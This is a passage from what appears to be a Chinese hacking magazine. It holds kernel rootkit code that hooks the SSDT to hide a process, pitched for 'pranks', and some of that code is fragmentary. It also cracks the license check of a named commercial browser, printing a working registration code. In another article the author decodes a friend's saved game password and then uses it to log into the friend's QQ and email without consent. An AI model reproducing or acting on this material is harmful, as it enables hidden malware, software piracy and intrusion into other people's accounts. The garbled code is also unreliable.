大家对钩子不陌生吧，hook msg 来注入 dll，hook gg 来盗号码都是一些尾巴罢了，等等。总之钩子在 hack 编程中是很好的东西，这些都是在 ring3 下的东西。在 x86 体系中内核内存驻得比较高，它们占据了 0x80000000 以及这之上的范围，当然有的情况下内核内存的起始点是 0xC0000000。然而进程不能访问内核内存，不包括特定的 API 和调用门，那么我们的 hook 就要通过驱动程序来完成了。

## SSDT

SSDT 的全称是 System Services Descriptor Table，系统服务描述符表。这个表是一个把 ring3 的 Win32 API 和 ring0 的内核 API 联系起来的角色，如图 1 所示。

当我们在 ring3 下调用 kernel32 模块中的 OpenProcess 函数时，它在 ntdll.dll 中找到 NtOpenProcess 函数，这些函数可以称作真正的 NT 系统服务的存根（Stub）函数，调用 sysenter 或 int 2Eh 之后，Windows 系统将会捕获你的这个调用，然后进入 ring0 层，并调用内核服务函数 NtOpenProcess。说起来这个过程很轻松，但是大家想一下 ntdll.dll 这一步是怎么过去的？如图 2 所示。


图 2 中的“SSDT”所示即为系统服务描述符表的各个表项，右侧的“ntoskrnl.exe”则为 Windows 系统内核服务进程（ntoskrnl 即为 NT OS Kernel 的缩写）。首先在 eax 中加载所请求的系统服务标识符编号或系统函数索引（图 2 中的 Address），然后向 edx 中加载函数参数的地址，开始对比找到函数的地址。

## KeServiceDescriptorTable

KeServiceDescriptorTable 是从内核导出的，其中一个指针指向了 SSDT，另外右下角的这个是 SSPT，它是系统服务参数表，它指定了每个系统服务的函数的参数的字节数，如图 3 所示。


```c
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
```

## 内存保护

一些内存区域是有写保护的，而现在的操作系统只要版本不是太老，那么 SSDT 就是只读的。我们绕过内存保护机制的方法有两种：一种是 CR0 欺骗，另外一种是 MDL。我们选择后者，用 MDL（内存描述表）描述一个内存区域，那么 MDL 包含它的起始地址、拥有者进程、字节数量以及标志。

## 代码分析

```c
#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
#pragma pack()
// SSDT

__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
PMDL g_pmdlSystemCall;
PVOID *MappedSystemCallTable;
// 声明

// MDL
g_pmdlSystemCall = MmCreateMdl(NULL, KeServiceDescriptorTable.ServiceTableBase, KeServiceDescriptorTable.NumberOfServices * 4);
if (!g_pmdlSystemCall)
    return STATUS_UNSUCCESSFUL;

MmBuildMdlForNonPagedPool(g_pmdlSystemCall);

g_pmdlSystemCall->MdlFlags = g_pmdlSystemCall->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA; // 修改标志，可写

MappedSystemCallTable = MmMapLockedPages(g_pmdlSystemCall, KernelMode); // 锁定内存中的 MDL 页
// MDL
// 使 MappedSystemCallTable 代表 SSDT 的相同地址，并且可写。

#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function + 1)]
#define SYSCALLINDEX(_function) *(PULONG)((PUCHAR)_function + 1)
#define HOOK_SYSCALL(_Function, _Hook, _Orig)
```

```c
_Orig = (PVOID)InterlockedExchange((PLONG)&MappedSystemCallTable[SYSCALL_INDEX(_Function)], (LONG)_Hook);

#define UNHOOK_SYSCALL(_Function, _Hook, _Orig) \
    InterlockedExchange((PLONG)&MappedSystemCallTable[SYSCALL_INDEX(_Function)], (LONG)_Hook)

// 这里有四个宏。
// SYSCALL_INDEX 用来返回函数在 SSDT 中相应的索引号。
// HOOK_SYSCALL 和 UNHOOK_SYSCALL 两个宏交换缓冲和数组的函数地址进行交换。
```

好了，现在万事俱备，就看你想钩住哪个函数了，搞点小恶作剧什么的，呵呵。

## Hide process

要在 ring0 下 hide process 的话最少有三种方法，最简单的就是 hook ZwQuerySystemInformation 函数。Hook 函数调用原来的函数并把返回的信息进行过滤，这样一来就可以达到想要隐藏我们的进程的效果了。

```c
NTSTATUS NewZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength)
{
    NTSTATUS ntStatus;

    ntStatus = ((ZWQUERYSYSTEMINFORMATION)(OldZwQuerySystemInformation))(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength);

    if (NT_SUCCESS(ntStatus)) {
        if (SystemInformationClass == 5) { // 5 代表要用 ZwQuerySystemInformation 函数来获取进程列表
            struct _SYSTEM_PROCESSES *cur = (struct _SYSTEM_PROCESSES *)SystemInformation;
            struct _SYSTEM_PROCESSES *pre = NULL;

            while (cur) {
                DbgPrint("Current item is %x\r", cur);
                if (cur->ProcessName.Buffer != NULL) {
                    if (0 == memcmp(cur->ProcessName.Buffer, L"AniHao", 14)) {
                        m_UserTime.QuadPart += cur->UserTime.QuadPart;
                        m_KernelTime.QuadPart += cur->KernelTime.QuadPart;

                        if (pre) {
                            if (cur->NextEntryDelta)
                                pre->NextEntryDelta += cur->NextEntryDelta;
                            else
                                pre->NextEntryDelta = 0;
                        }
```

```c
else {
    SystemInformation = NULL;
}

else {
    cur->UserTime.QuadPart += m_UserTime.QuadPart;
    cur->KernelTime.QuadPart += m_KernelTime.QuadPart;
    m_UserTime.QuadPart = m_KernelTime.QuadPart = 0;
}

pre = cur;
if (cur->NextEntryDelta)
    cur = (char *)cur + cur->NextEntryDelta;
else
    cur = NULL;
}
}
else if (SystemInformationClass == 8) {
    struct _SYSTEM_PROCESSOR_TIMES *times = (struct _SYSTEM_PROCESSOR_TIMES *)SystemInformation;
    times->IdleTime.QuadPart += m_UserTime.QuadPart + m_KernelTime.QuadPart;
}

return ntStatus;
}
```

前面说了隐藏进程最少有三种方法，通过 hook 来改变列出进程的算法算是老技术了，很容易被检测出来。新一点的方法是在运行时打补丁，感觉有点像 PE 文件感染，另外还有 DKOM 直接内核对象操作。

> （作者提到的 My RootKit Hide Process 的代码已经收录在光盘中）

> **编辑点评：**
>
> 隐藏进程有很多方法，ring3 下有，但很多易被检测出来了，ring0 的则相对比较复杂。不过在技术日新月异的时代，没有什么是完美的。

## 顶级——打造自己的浏览器

- 从本文您可以学到：
- 1. 简单了解 Delphi 的语法
- 2. 利用 WebBrowser 编写具有修改 Cookies 功能的浏览器

很久以前桂林老兵曾写过修改 cookies 的浏览器，相信不少朋友都用过吧。那有没有想过打造一个自己的浏览器呢？其实这不是什么难事，几行代码，几个组件就可以搞定了。下面我们来用 Delphi 打造自己的工具。

程序运行界面如图 1 所示，需要的组件有：CoolBar、ToolBar、SpeedButton、WebBrowser 和 OpenDialog 等组件。

菜鸟不要晕呀，下面我们来看这些组件都在什么地方放着，我们一个个把它都揪出来。在 WIN32 里对应着我们 CoolBar、ToolBar 组件，我用红颜色给大家标出来了，如图 2 所示。

在 Additional 里有 SpeedButton 组件，我用的是汉化补丁，已经给大家找出来了，它对应的是 Additional，如图 3 所示。

在 Internet 里有我们要的 WebBrowser 组件，如图 4 所示。这个组件是极为关键的，因为我们一会儿连接网络就是通过它，也就是说它会显示出我们浏览的网页。这里我们要用到的 TWebBrowser 的属性和方法主要有：GoBack 方法，后退到上一个页面；GoForward 方法，前进到下一个页面；GoHome 方法，调用默认的主页页面；Refresh 方法，刷新当前页面；Navigate 方法，发送 HTTP 消息到指定的 URL 并显示指定文件的内容。

最后我们找到对话框（英文对应的是 Dialogs）中的 OpenDialog 组件，如图 5 所示。


好了，我们的组件都添完了，下面来设置一下属性。SpeedButton 组件一共要添加 5 个，对应我们图 1 的后退、前进、刷新等功能。大家可以根据上面的图片，其实这个很简单，选择 SpeedButton1 到 SpeedButton5，来到属性编辑器找到 Glyph，就可以选择自己的图片了，如图 6 所示。


接下来我们来到常规里（英文对应的是 Standard）找到 Label 组件，画出来填上地址和 COOKIES 信息，需要两个 Edit 组件和三个 Button 组件，如图 7 所示。


下面大大的空白处就是我们的 WebBrowser 组件了，如图 8。我们的页面已经完成了，不过这只是个空程序，我们必须往里写入代码，才可以执行。首先选中界面浏览按钮，就会来到代码编译的地方，代码如下：


```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
  ...
end;
```

所有的功能都是在 begin 和 end 之间完成的，刚才说过用 WebBrowser 组件来浏览网页的，那就需要用到它的 Navigate 方法。该方法会发送 HTTP 消息到指定的 URL 并显示指定文件的内容。我们在 begin 和 end 之间填入 WebBrowser1.Navigate(Edit1.Text)，就可以打开网页了，如图 9 所示。


下面我们来实现后退、前进等功能，跟上面一样，双击按钮到代码处填入执行代码，代码如下：


```pascal
procedure TForm1.SpeedButton1Click(Sender: TObject);
begin
  Close; // 关闭
end;

procedure TForm1.SpeedButton4Click(Sender: TObject);
begin
  try
    WebBrowser1.GoBack; // 后退网页
  except
  end;
end;

procedure TForm1.SpeedButton3Click(Sender: TObject);
begin
  try
    WebBrowser1.GoForward; // 前进网页
  except
  end;
end;
```

```pascal
procedure TForm1.SpeedButton2Click(Sender: TObject);
begin
  WebBrowser1.GoHome; // 返回主页
end;
```

```pascal
procedure TForm1.SpeedButton5Click(Sender: TObject);
begin
  WebBrowser1.Refresh; // 刷新当前页
end;
```

我们还可能要用浏览器打开本地的 HTM 文件，双击查找按钮来到代码处写入以下代码：

```pascal
procedure TForm1.SpeedButton6Click(Sender: TObject);
begin
  ...
end;
```

```pascal
if Dialog1.Execute then
  Edit1.Text := Dialog1.FileName; // 将本地页面显示在文件框中
end
```

接着选择对象层次列表中的 Dialog 组件，在下面的属性编辑器里找到 Filter，选择后会发现弹出对话框，左面填上网页，右面填上 *.htm，这样工具只会查找 HTM 的文件，如图 10、11 所示。

接下来就要实现工具的核心功能，获取 COOKIES。首先我们在 USES 处加入 mshtml 等组件，如图 12 所示。

要想得到 COOKIES，必须先获得 Document 对象，而要得到 Document 对象首先还得通过 WebBrowser 这个 VCL。我们来声明这个对象。


```pascal
var
  Doc: IHTMLDocument2;
```

这里需要注意的是，这个一定要定义为全局变量，然后可以通过“Doc := WebBrowser1.Document as IHTMLDocument2;”获得 Document 对象，这样在得到 Document 对象后就可以得到 cookies 对象了。

说了点理论，菜菜是不是有点晕呀，下面跟我一起来实现这个功能。首先来到对象层次列表找到 WebBrowser1，选中在下面的属性编辑器里的 DocumentComplete 事件，双击会自动弹出代码窗口。在 begin 和 end 之间填入如下代码：

```pascal
procedure TForm1.WebBrowser1DocumentComplete(Sender: TObject;
  const pDisp: IDispatch; var URL: OleVariant); // 显示网页文件和下载完毕
begin
  begin
    Doc := WebBrowser1.Document as IHTMLDocument2; // 获得一个 IHTMLDocument2 对象
    Edit2.Text := Doc.cookie; // Doc.cookie 就是页面 COOKIE 信息了
  end;
end;
```

代码已经加了注释，不多解释了。最后来到主界面双击 COOKIES 对应的修改按钮，写入如下代码：


```pascal
procedure TForm1.Button2Click(Sender: TObject);
begin
  Doc.cookie := Edit2.Text; // 把编辑框内容赋给 COOKIE 并修改
  WebBrowser1.Refresh; // 修改以后刷新
end;
```

好了，工具已经完成了，按 F9 来编译运行一下，直接点修改就可以改 COOKIES 了，如图 13 所示。

最后有什么不明白或想和我交流的朋友可以来非安全找我，我的 ID 是樱花浪子。

> （作者找到的跟我一起打造自己的浏览器的代码及汉化 Delphi7 补丁已经收录在光盘中）

**编辑点评：** 简单的操作，简单的代码，完成了不简单的功能，实用。

## CRACKER

## 10086 的破宣破语：

大家好，还是我 10086，不过我不是移动客服哦，别看错了哦！时间过得真快，一眨眼又到春节了，据称，中国民间在除夕有守岁的习俗，守岁从吃年夜饭开始，这顿年夜饭要慢慢地吃，从掌灯时分入席，有的人家一直要吃到深夜。根据宋懔《荆楚岁时记》的记载，至少在南北朝（公元 420 年—589 年）时已有吃年夜饭的习俗。所以我们这里的吃年夜饭的酒楼，基本上都已经订完了。自从俺的 QQ 在去年 12 期公布后，好多读者加了俺的 QQ，原来俺也发现，俺也是出名的嘛，哇哈哈！！！不过还是收到很多读者朋友的建议，所以我也一直在努力将破解栏目尽量菜鸟化、新手化、入门化，文章的目的，关键还是让读者朋友真正学到破解所需要的知识，当你的知识积累到一定程度的时候，你会发现，蓦然回首，原来走在广阔天地间。当你不停成功，你会发现，原来是有另一番景象的。最后祝大家春节快乐！

## 每日破新闻

### 看雪学院辞旧迎新 exploit me 挑战赛

本次比赛的目的在于活跃论坛技术氛围，引导新的研究方向，培养新人，锻炼队伍。为鼓励初学者参赛，特设置两道难度不同的题目：

- **A：** 一个以 PE 形式公布的存在漏洞的简单网络程序。挑战者需要对原程序进行逆向、调试分析，弄清漏洞发生的原理，编写完成 exploit 程序，构造畸形数据包并发送，取得远程主机的控制权（或执行任意 shellcode），并撰写漏洞分析报告。
- **B：** 一个真实的已曝光 0day 漏洞分析与利用。参赛者的分析环境将会得到一定的简化，并得到一定的技术提示。参赛者需要写出利用该漏洞的 exploit，并撰写漏洞分析报告。

相关连接：http://bbs.pediy.com/showthread.php?t=57317

## 每日破资源

### 加密与解密工具新年大礼包 2008 DVD1

引用原话：“本光盘主要收集了常用的加密与解密工具，工具来自 bbs.pediy.com 兄弟们的分享，我们主要是负责整理了一下，做个列表，未尽之处请原谅！本次主要是收集文档和工具两部分，由于文档的版权比较敏感，因此中文印刷品的电子书没有收集。特别感谢 Allone（优米）制作的大礼包封面！特别感谢大礼包的制作者 china、aker、bithaha、linhanshi、kanxue 等朋友，由于帮忙的朋友太多，就不一一列出了，在此一并感谢！由于精力实在有限，对本光盘的不足之处请大家海涵。祝 2008 年顺心、快乐、健康、幸福！”

之多，比起去年的 700M 左右，的确大了几倍，或许 2008 是个精彩的年份，所以礼物也特别丰富，这么好的大礼包，对于爱好逆向技术的你怎么会错过呢？附件包含了目录列表！

BT 下载：http://www.pediy.com/Crack_New_Year_Presents_2008.rar.torrent

MD5 值：EE0D21D6BCE581A62F4FF4E3A1FB80B7

相关连接：http://bbs.pediy.com/showthread.php?t=57476

## 破冬之重启验证型之 ini 文件

**December**

- 从本文你可以学到：
- 如何对付 ini 型重启验证判断

大家好，经过了两次的破解术语学习之后，是不是对一些陌生的概念有了清晰的理解呢？但是只有这些概念性知识还是不够的，逆向技术是一门技术性很强的学科，所以很多时候大家都建议大家走进迷人的代码中去，但是如何知道哪些才是关键性的代码呢？这就需要一些技巧来辅助了。这一次和大家说说关于 ini 文件型的重启验证问题。

对于 ini 型的重启验证，一般比较常用的断点函数是：

```text
GetPrivateProfileStringA
GetPrivateProfileInt
```

这两个函数的大概意思是从文件中读取信息或内容，虽然有函数可用，的确是非常棒的，但是有时候，使用函数或许也未必奏效。当然如果不奏效的，很有可能是经过处理或者是比较特别的情况了，所以具体问题还需要具体分析。这一次的实例分析目标是价值 100 元一套的晓悦淘宝专用浏览器 1.3 版本。这是一个绿色版本的软件，无需安装，解压后即可使用，运行主程序 **TBBrowser.exe**，就马上可以发现有个提示框，如图 1。


提示内容为“非注册用户将不能使用定时任务，不能复制图片，批量操作也会受到数量限制。请注册！”，可以判断出来未注册的时候，软件的功能都有哪些限制，所以这个基本是一个比较致命的软件安全漏洞，破解者很容易从一点出发，对其功能限制一一排除。这里我打算是先放一放，再到程序注册那里去看看，还会有什么提示。随便输入一通，如图 2。


我把过期时间写到了 2020 年 12 月 30 日，应该很足够用了吧？数值太大，有时候也未必是好，按下“确定”，会出现如图 3 的提示。


我看看程序目录下的文件，发现注册信息写入了 **license.ini** 文件中，如图 4。


参考前面我所提到的两个函数，我发现断点中断后，一直都没找到关键性的代码，使得我无法从代码中看出点什么来，也可能是我比较笨吧，呵呵！于是我换了个思路，去搜索一下字符串看看，不知道会不会有什么好运气。使用著名的查壳工具 PEiD 查看一下，结果如图 5。

扫描结果显示是 VC 8 -> Microsoft Corporation，没有加壳，很幸运啊，如果加了猛壳的话，我也无能为力咯。既然是没加壳，马上把它丢进 OD 去搜搜字符串吧！在第一次的时候，我使用了 ASCII 搜索，如图 6。


从搜索的结果来看，我找了很久，都没找出什么来，我想很奇怪，为什么找不出 **license.ini** 文件呢？于是我再次搜索，这次使用 **UNICODE** 来搜索，很容易就看出点什么来了，连我最爱的 **license.ini** 也看到了，如图 7。


我一共发现了四处，分别是 0040E9D8、00412F7D、00413462 和 00413535，在这四处地址下断点，F9 运行起来，马上中断在 0040E9D8 这里，我们分析一下关键代码：

```text
0040EA4E   68 44A04700      push TBBrowse.0047A044 ; License
0040EA53   68 54A04700      push TBBrowse.0047A054 ; RegisterInfo
0040EA58   FF15 64B34600    call dword ptr ds:[<&KERNEL32.GetPrivateProfileStringW>]
0040EA5E   85ED             test ebp, ebp ; 注册信息
0040EA60   75 04            jnz short TBBrowse.0040EA66 ; 是否输入
0040EA62   33C0             xor eax, eax
0040EA64   EB 1F            jmp short TBBrowse.0040EA85
0040EA66   3BC5             cmp eax, ebp
0040EA68   0F50C2           cmovg edx, eax
0040EA6B   EB 03            jmp short TBBrowse.0040EA70
0040EA6D   8D49 00          lea ecx, [ecx]
0040EA70   66 8B08          mov cx, word ptr ds:[eax]
0040EA73   83C0 02          add eax, 2
0040EA80   0FB7 6705        movzx eax, word ptr ds:[ebp+5]
0040EA8E   8945 F4          mov dword ptr ss:[ebp-C], eax
0040EAA1   0F95C1           setne cl
0040EAA4   85C9             test ecx, ecx
```


```text
0040EAA6 | 75 0A            jnz short TBBrowse.0040EAB2
输入注册码
0040EAA8 | 68 80004005      push 80004005
```

这一段主要是读取 ini 文件里面的注册码信息。

```text
0040EAFC | 68 70A04700      push TBBrowse.0047A070
Date:
0040EB01 | 68 54A04700      push TBBrowse.0047A054
RegisterInfo
0040EB06 | FF15 64834600    call dword ptr ds:[<&KERNEL32.GetPrivateProfileStringW>]
0040EB0C | 85D8             test edx, edx
读取过期日期
0040EB0E | 75 04            jnz short TBBrowse.0040EB14
0040EB10 | 33C0             xor eax, eax

0040EB35 | 3B43 F8          cmp eax, dword ptr ds:[ebx-8]
0040EB38 | 0F8F B7040000    jg TBBrowse.0040EFF5
0040EB3E | 8943 F4          mov dword ptr ds:[ebx-C], eax
日期长度
0040EB41 | 66:C70443 0000   mov word ptr ds:[ebx+eax*2], 0
0040EB47 | 83BF 00600000 00 cmp dword ptr ds:[edi+60], 0
0040EB4E | 75 5C            jnz short TBBrowse.0040EBAC
0040EB50 | 6A 00            push 0
0040EB52 | E8 91C03000      call TBBrowse.0044C7E8
读取本地系统时间
0040EB57 | 83C4 04          add esp, 4
0040EB5A | 8D4C24 30        lea ecx, dword ptr ss:[esp+30]
0040EB5E | 51               push ecx
/Arg1
0040EB5F | BE 7CA04700      mov esi, TBBrowse.0047A07C
"%Y%m%d" 以年月日的格式保存
0040EB64 | 8D7C24 28        lea edi, dword ptr ss:[esp+28]
0040EB68 | 894424 34        mov dword ptr ss:[esp+34], eax
0040EB6C | 895424 38        mov dword ptr ss:[esp+38], edx
0040EB70 | E8 AB140000      call TBBrowse.00410020
(TBBrowse.00410020)
0040EB75 | 8B5424 24        mov edx, dword ptr ss:[esp+24]
获得本地系统时间
0040EB79 | 52               push edx
0040EB7A | E8 2DD10300      call TBBrowse.0044BCAC
0040EBC2 | 3BE0             cmp eax, eax
过期日期和本地系统比较
0040EBC4 | 0F8E 09010000    jle TBBrowse.0040ECD3
小于或等于就在下面走
```

这一段主要是读取 ini 文件里面的过期日期内容和本地系统日期信息，通过两者的比较来决定是否跳转。往下继续分析代码：

```text
0040ED33 | 68 00A14700      push TBBrowse.0047A100
LoginName:
0040ED38 | 68 54A04700      push TBBrowse.0047A054
RegisterInfo
0040ED3D | FF15 64834600    call dword ptr ds:[<&KERNEL32.GetPrivateProfileStringW>]
GetPrivateProfileStringW
0040ED43 | 85DB             test ebx, ebx
读取用户名

0040ED68 | 0F8F 87020000    jg TBBrowse.0040EFF5
0040ED6E | 8943 F4          mov dword ptr ds:[ebx-C], eax
获得用户名长度
0040ED71 | 66:C70443 0000   mov word ptr ds:[ebx+eax*2], 0
0040ED77 | 8D8424 E4000000  lea eax, dword ptr ss:[esp+E4]
0040ED7E | 68 14A14700      push TBBrowse.0047A114
SfZS
0040ED83 | 50               push eax
0040ED84 | E8 7734FFFF      call TBBrowse.00402200
比较用户名是否含有 SfZS
```

```text
0040ED89 | 83C4 08          add esp, 8
0040ED8C | 84C0             test al, al
0040ED8E | 0F84 47020000    je TBBrowse.0040EFDB
如果不跳的话，会以机器码作为 name.
```

这一段主要是读取用户名，而且还会比较用户名前面几位是否是 SfZS，0040ED8E 处是执行操作的，如果有，就不会跳，这时候注册码的运算会以机器码来计算；如果没有，就会跳，这时候会以原先输入的用户名来计算注册码。但一般来说，是会跳的，为啥？自己想一下看看！

```text
0040F090 | 896C24 6C        mov dword ptr ss:[esp+6C], ebp
0040F096 | C74424 54 01234567 mov dword ptr ss:[esp+54], 67452301
这几位是经典的 MD5 常数：
0040F09E | C74424 58 89ABCDEF mov dword ptr ss:[esp+58], EFCDAB89
0040F0A6 | C74424 5C FEDCBA98 mov dword ptr ss:[esp+5C], 98BADCFE
0040F0AE | C74424 60 76543210 mov dword ptr ss:[esp+60], 10325476
0040F0C6 | C68424 E4000000 30 mov byte ptr ss:[esp+E4], 30
下面的代码是 0 到 Z 的 ASCII 码，可以猜是一张表，有可能会在算法中被用到。
0040F0F4 | C68424 E5000000 31 mov byte ptr ss:[esp+E5], 31
0040F0FC | C68424 E6000000 32 mov byte ptr ss:[esp+E6], 32
0040F104 | C68424 E7000000 33 mov byte ptr ss:[esp+E7], 33
0040F10C | C68424 E8000000 34 mov byte ptr ss:[esp+E8], 34
0040F114 | C68424 E9000000 35 mov byte ptr ss:[esp+E9], 35
0040F11C | C68424 EA000000 36 mov byte ptr ss:[esp+EA], 36
0040F124 | C68424 EB000000 37 mov byte ptr ss:[esp+EB], 37
0040F12C | C68424 EC000000 38 mov byte ptr ss:[esp+EC], 38
0040F134 | C68424 ED000000 39 mov byte ptr ss:[esp+ED], 39
0040F13C | C68424 EE000000 61 mov byte ptr ss:[esp+EE], 61
0040F144 | C68424 EF000000 62 mov byte ptr ss:[esp+EF], 62
```

```text
0040F300 | 0FB6840C 24010000 movzx eax, byte ptr ss:[esp+ecx+124]
算法运算开始
0040F308 | 99               cdq
0040F309 | 33C2             xor eax, edx
0040F30B | 2BC2             sub eax, edx
0040F30D | 99               cdq
0040F30E | BE 2F000000      mov esi, 2F
0040F313 | F7FE             idiv esi
0040F315 | 83C1 01          add ecx, 1
0040F318 | 83F9 10          cmp ecx, 10
0040F31B | 66:0FBE8414 E400 movsx ax, byte ptr ss:[esp+edx+E4]
0040F324 | 66:89444C 320100 mov word ptr ss:[esp+ecx*2+132], ax

0040F32C | 7C D2            jl short TBBrowse.0040F300
没算完继续算

0040F385 | E8 969A0000      call TBBrowse.00418E20
0040F38A | 8B6C24 20        mov ebp, dword ptr ss:[esp+20]
真假
0040F38E | 8B4C24 30        mov ecx, dword ptr ss:[esp+30]
假码
0040F395 | 8BC5             mov eax, ebp
0040F397 | 66:8B10          mov dx, word ptr ds:[eax]
0040F39A | 66:3B11          cmp dx, word ptr ds:[ecx]
真假码比较
0040F39D | 75 1E            jnz short TBBrowse.0040F3BD
执行比较结果
0040F39F | 66:85D2          test dx, dx
0040F3A2 | 74 15            je short TBBrowse.0040F3B9
0040F3A4 | 66:8B50 02       mov dx, word ptr ds:[eax+2]
0040F3A8 | 66:3B51 02       cmp dx, word ptr ds:[ecx+2]
真假码比较
0040F3AC | 75 0F            jnz short TBBrowse.0040F3BD
执行比较结果
0040F3AE | 83C0 04          add eax, 4
0040F3B1 | 83C1 04          add ecx, 4
0040F3B4 | 66:85D2          test dx, dx
0040F3B7 | 75 DE            jnz short TBBrowse.0040F397
没比较完继续比较
```通过一路单步走来，发现在 0040F38A 会出现真的注册码了，如果成功的话，代码会走到下面经过注册成功的标志，不成功的话，就会失败了。我这里得到的注册码是 2D670U1HCDpuDy，至于算法部分，有兴趣的可以看看，这不在本文讨论范围之内。提示一下，只要知道 esp+ecx+124 的值是如何得到的，算法就很明显了！使用刚才得到的注册码去试一下，未注册前程序会显示如图 8。


注册后会显示如图 9，而且如图 1 的提示框也会消失。本文主要介绍了 ini 型的情况分析，有时注册信息并不一定是写入 ini 文件中的，或许也会写入 .dat、.key 等文件，这时候函数断点情况也会有所不同了。重启验证是初学者的一个拦路虎，所以初学者一开始就遇上的话，可能会出现害怕的情况，但其实重启验证也不是传说中的那么可怕，只要对症下药，也是可以药到病除的。下一次，我再为大家介绍另外的技巧，下次见！


> 【本文介绍的相关程序已收录在本期光盘中】

> **编辑点评：**
>
> 一篇很好的关于重启验证的入门教程，程序涉及了重启验证和文件信息读取，非常好的一个练习目标，通过作者思路和分析，相信大家也能搞定这个东西吧？

## 小破“VS 游戏竞技平台”登录密码

☉ 心雨

- 从本文你可以学到：
- 如何破解 VS 游戏竞技平台登录密码

喜欢玩网上对战的朋友们估计对“VS 游戏竞技平台”不会陌生，最近偶实在无聊，便从别人电脑上拖了他的“VS 游戏竞技平台”到自己电脑上试玩！打开程序便看到登录界面上已经填好了账号密码，如图 1。

从图 1 中可以看到朋友的账号、密码、登录的服务器等信息都暴露出来了，看来是使用保存密码功能造成的。出于自己研究技术的习惯，便想试试看能不能把朋友的密码给搞出来！


## 一、面对的问题

- 1. 找到保存密码的文件。
- 2. 破解加密的密文。

## 二、分析问题

由于自己是直接拖的安装好的程序文件夹，运行后直接点登录可以成功登录，所以可以断定密码是保存在“VS 游戏竞技平台”文件夹下的！只要找到保存密码的文件，就可以得到密文或加密后的密文！

## 三、解决问题

### 1. 找到密码

要找到密码保存的位置，可以先注册一个账号，然后运行平台选择保存密码，接着使用“木马辅助查找器”监视“VS 游戏平台”，看其修改或新建了哪些文件！如图 2。


经过查找发现，用户的账号密码都保存在“info”目录下的“config.ini”文件里，用记事本或其他文本编辑工具打开“config.ini”如图 3。


```ini
VOICE=Y
FORBIDHOTROOMS=N
SAVEPASSWORD=Y
USERID=yl1245789
PASSWORD=￥ウX
```

其中“SAVEPASSWORD=Y”表示用户选择了“保存密码”，“USERID=yl1245789”和“PASSWORD=￥ウX”则表示用户名和密码（经过加密）。

### 2. 破解密文

得到了密码，剩下的就是要破解并还原明文！从密文可以看出加密的方法并不是常见的算法，那么只能自己动手分析了。刚才注册的账号密码是“123456”，在这里显示的是“￥ウX”。大家都知道，在计算机中所有的数据在存储和运算时都要使用二进制数表示，这里为了表示方便使用 16 进制来表示，所以先要把密文“￥ウX”转换成 16 进制！在这里没必要使用什么工具，可以直接在百度搜索中输入“￥ウX”再点击搜索，就可以从地址栏中得到转换好的 16 进制密文，如图 4。


地址栏中的“%A3%A4%A5%A6%A7%A8”便是转换好的密文，把“%”去掉后就可以得到 16 进制的密文“A3 A4 A5 A6 A7 A8”，正好是 6 个字符，跟原密码“123456”的位数相同！由于暂时不知道是怎么加密转换的，那就先试试最简单的加密算法——原密码的每一位都加上一个相同的数值后得到密文（比如密码是“abc”，就把“abc”的 ASCII 值 97、98、99 分别加上 10，得到 107、108、109，就变成“klm”）！先把密文“￥ウX”的 16 进制转换成 10 进制的形式，是“163 164 165 166 167 168”，然后把原密码“123456”转换成 ASCII 值的形式，是“49 50 51 52 53 54”。再对比两组数据，发现密文的每一位数值都比原文大 114，那么加密方法是不是把原密码的每一位字符的 ASCII 值加上 114 后存放？经过多次修改测试，发现“VS 游戏竞技平台”确实只是把 ASCII 值加上 114，采用这样简单的算法实在是让人吃惊！更意外的是，用得到的密码测试那位朋友的 QQ、E-MAIL 都成功登录了！

本文并没有高深的技术，只用了常见的基本方法就把密码给破解了，看来并不是破解者的技术有多好，而是程序开发者对密码的保护不重视！程序上的漏洞可以打补丁来修补，那开发者自身的安全意识问题要怎么来修补呢？

> **编辑点评：**
>
> 对于这个密码的获得，我确实有点意外，没想到密码的保护居然还是这么脆弱。如果游戏积分很多的话，那岂不是很容易被偷掉？所以不要忽略了最简单的问题。


## 易语言程序脱壳与破解

- 从本文你可以学习到：
- 易语言程序的通用脱壳方法
- 使用 E-Code Explorer 找出关键点

易语言大家也许都有耳闻吧，由于它的全中文化和简单易用，现在有不少软件都是用它写的，特别是好多初中生或高中生的小朋友用得较多，当然入门较为容易是个主要特点。本文就一个加了壳的 crackme 来阐述易语言程序的脱壳与破解。

易格式可执行文件是一种特殊的可执行文件，它由 PE 部分和易格式原体两部分组成，PE 部分用来释放、寻找、加载易格式装载器。易格式原体部分包含了程序运行所需要的代码、数据和资源。这就是为什么我们用 PEiD 查看一个易语言程序时会显示如图 1 的信息。


注意后面有附加数据，如果 PEiD 查看器检测结果是这样，并且区段里有 .ecode，那十有八九就是易语言程序了。下面开始分析一个 crackme 例子，我是先加了 PE-Armor 的壳，并伪装成了 Petite 2.x，如图 2 的查看结果。


从图 2 可以看到检测结果后面为 [Overlay]，并且区段里有 .ecode 名称，那很有必要怀疑它是一个易语言程序。关于易语言的脱壳，这里我们可以请上 monkeycz 大虾的工具 E-Code Explorer，这里只给出简单的步骤，几乎可以对付任何加壳的易语言程序。首先运行那个加壳的 crackme，然后打开 E-Code Explorer，点击菜单中的“设置→分析设置→分析对象设置”，选择“其他 包含易格式的文件”，并且把“启动易格式捕捉者”前面打勾，如图 3。


第二步打开“文件→进程中的程序”——选择 crackme 的路径——点“载入进程”，如图 4。


从图 4 可看到捕捉到一个疑似易格式基址为 00009000，点击它选“载入分析”就可以使 ECE 工具全部分析出来了，那么现在就可以着手脱壳了。

### 步骤一：

工具→易格式重定位信息修复，然后把 00403000 改为开始分析时的（疑似易格式基址），即 00409000，重定位完了。

### 步骤二：

